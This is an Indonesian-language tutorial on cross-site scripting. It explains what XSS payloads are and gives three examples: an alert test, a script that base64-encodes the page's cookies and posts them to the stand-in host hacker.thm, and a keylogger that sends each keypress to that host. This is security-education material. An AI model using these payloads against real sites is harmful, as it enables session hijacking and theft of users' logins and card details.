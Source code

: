 # XSS (Cross-site Scripting)

## Introduction

**Prasyarat:** Perlu dicatat bahwa XSS didasarkan pada JavaScript, sehingga pengetahuan dasar akan bahasa tersebut akan sangat membantu. Dan akan membantu juga jika kita sudah memahami dasar konsep mengenai Client-Server request dan response.

Cross-Site Scripting, lebih dikenal sebagai XSS di komunitas keamanan siber, diklasifikasikan sebagai serangan injeksi di mana JavaScript berbahaya disuntikkan ke dalam aplikasi web dengan tujuan untuk dieksekusi oleh pengguna lain.

Kerentanan skrip lintas situs sangat umum, bahkan XSS juga masih terdapat pada aplikasi besar. Kita bisa mendapatkan bayaran yang besar jika menemukan kerentanan tersebut dan melaporkannya. 

## XSS Payload

### What is a payload?

Di XSS, payload adalah kode JavaScript yang ingin kita jalankan di komputer target. Ada dua bagian payload, tujuan dan modifikasi.

Tujuan adalah apa yang kita ingin JavaScript benar-benar lakukan, dan modifikasi adalah perubahan pada kode yang kita butuhkan untuk membuatnya dijalankan karena setiap skenario berbeda.

Berikut adalah contoh tujuan XSS:

- **Membuktikan apakah vulnerable terhadap XSS**

Ini adalah payload paling sederhana di mana semua yang ingin kita lakukan adalah menunjukkan bahwa kita dapat melakukan XSS di situs web. Ini sering dilakukan dengan menyebabkan kotak peringatan muncul di halaman dengan string teks, misalnya:

```html
<script>alert('XSS');</script>
```

- **Mencuri data Session**

Detail sesi pengguna, seperti token login, sering kali disimpan dalam cookie di mesin target. JavaScript di bawah ini mengambil cookie target, base64 mengkodekan cookie untuk memastikan transmisi berhasil dan kemudian mempostingnya ke situs web di bawah kendali hacker untuk dicatat. Setelah hacker memiliki cookie ini, mereka dapat mengambil alih sesi target dan login pengguna tersebut.

```html
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

- **Key Logger**

Kode di bawah ini bertindak sebagai Key Logger. Ini berarti apa pun yang kita ketik di halaman web akan diteruskan ke situs web di bawah kendali hacker. Ini bisa sangat merusak jika situs web payload dipasang pada login pengguna yang diterima atau detail kartu kredit.

```html
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```
